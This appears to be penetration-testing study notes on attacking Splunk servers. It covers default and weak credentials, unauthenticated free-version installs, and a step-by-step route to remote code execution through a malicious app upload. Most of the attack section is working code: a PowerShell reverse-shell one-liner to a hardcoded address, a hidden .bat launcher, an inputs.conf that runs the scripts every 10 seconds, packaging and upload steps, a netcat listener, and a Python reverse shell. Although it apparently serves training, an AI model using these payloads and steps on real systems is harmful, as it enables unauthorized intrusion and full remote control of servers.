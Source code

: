 # Splunk Attacks

* \
  Splunk web server runs by default on port 8000
  * works on https
* On older versions of Splunk, the default credentials are `admin:changeme`
  * If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Enumeration

* The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication - It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. - This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment - Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.&#x20;

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Splunk has multiple ways of running code, such as
  * server-side Django applications
  * REST endpoints
  * scripted inputs
  * alerting scripts
* A common method of gaining remote code execution on a Splunk server is through the use of a scripted input

### Attacking Splunk

* We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us.
  * The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1)
* The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file
* &#x20;Our reverse shell will be a PowerShell one-liner.

```powershell-session
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions.
  * Here we set the app as enabled and tell Splunk to run the script every 10 seconds.
  * The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 
```

```shell-session
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

* We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

* Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

* The next step is to choose `Install app from file` and upload the application.

```
https://10.129.201.50:8000/en-US/manager/search/apps/local
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
 sudo nc -lnvp 443
```

* On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

```
https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.
* If we were dealing with a **Linux host**, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
